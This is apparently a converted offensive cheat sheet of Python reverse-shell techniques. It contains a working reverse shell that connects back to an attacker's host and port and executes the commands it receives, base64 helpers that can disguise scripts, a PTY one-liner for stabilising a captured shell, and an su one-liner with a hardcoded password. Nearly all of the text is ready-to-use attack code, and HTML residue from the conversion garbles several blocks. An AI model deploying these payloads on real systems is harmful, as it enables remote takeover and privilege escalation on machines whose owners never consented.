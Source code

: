 <span id="anchor-86"></span>Python Reverse Shells

<span id="anchor-87"></span>Straight Python Shell

```
import socket,os
so=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
so.connect(('<strong>&lt;LHOST&gt;</strong>',<strong>&lt;LPORT&gt;</strong>))
Hc=False
while not Hc:
data=so.recv(1024)
if len(data)==0:
Hc=True
stdin,stdout,stderr,=os.popen3(data)
stdout_value=stdout.read()+stderr.read()
so.send(stdout_value)</td>
```

<span id="anchor-88"></span>Encode a Python Script (Base64)

```
import base64

with open('<strong>&lt;script_file&gt;</strong>', 'rb') as f:
  encoded = base64.b64encode(f.read())
  print encoded</td>
```

<span id="anchor-89"></span>Decode an Encoded Python Script (Base64)

```
import base64; 
with open('decoded_script.py', 'w') as f:
    decoded = ‘<strong>&lt;base64_string&gt;</strong>'.decode('base64')
    f.write(decoded)
    f.close()</p></td>
```

<span id="anchor-90"></span>Fix TTY Issues In Reverse Shells

<span id="anchor-91"></span>Python PTY

```
python -c 'import pty; pty.spawn("/bin/bash")'
Then fix the term type:
set TERM=linux
Or
export TERM=linux
clear</p></td>
```

<span id="anchor-92"></span>Python Sudo w/o TTY

```
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(\["/bin/su","-c","id","bynarr"\],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\\n");time.sleep(0.1);print os.read(master,1024);'
```
